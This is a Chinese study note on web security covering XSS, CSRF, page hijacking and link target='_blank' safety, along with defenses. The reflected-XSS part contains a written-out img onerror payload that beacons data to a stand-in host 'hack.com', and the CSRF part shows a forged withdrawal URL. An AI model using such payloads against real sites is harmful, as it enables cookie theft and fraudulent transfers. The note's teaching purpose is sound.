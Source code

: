 ### - XSS
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，  
> 而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF 防御措施主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 



### - 页面劫持
1. 跳转型  

> 用户输入地址A，但是跳转到地址B，用户输入baidu.com跳转到so.com或者sm.cn，并且对方网站有故意做成和百度搜索差不多的样子。  

##### 这种劫持，输入 url 到 页面加载结束，判断 url 是否一致

2.注入型

> 在页面传输过程中，对内容进行再加工（注入 js、iframe、篡改页面）。注入js的方式可以通过document.write或者直接改html代码片段等方式，给页面增加外链js，为了做到更难检测，有些运营商会捏造一个不存在的url地址，从而不被过滤或者检测。  

```
案例1：运营商会用自己识别的ip或者域名做js网址，wap.zjtoolbar.10086.cn这类只有在浙江移动网络下才会被解析出来，同理ip也是

案例2：运营商很聪明，知道页面可以检测所有外链js的域名，比如：m.baidu.com我只允许m.baidu.com/static的外链js，其他js都会  
被记录反馈为了不被检测出来，我遇见个case电信会访问一个不存在的地址，比如：m.baidu.com/static/abc.js，这个地址在运营商直  
接返回劫持的js代码,请求不会发到百度的服务器。
```  

##### 改写 `document.write` 方法 和  `window.top = parent!== window` 和  `https://`
    


### - a 标签 target = '\_blank'
添加 noopener noreferrer 是为了防止恶意网站通过 window.opener 访问到打开的新窗口的 window 对象，从而进行恶意操作。具体来说，noopener 属性表示打开的新窗口不应该与原始页面共享 window.opener 属性，而 noreferrer 属性表示不应该在 HTTP 请求头中发送 Referer 字段，以防止泄露原始页面的信息。这两个属性的组合可以提高安全性，防止一些恶意攻击。



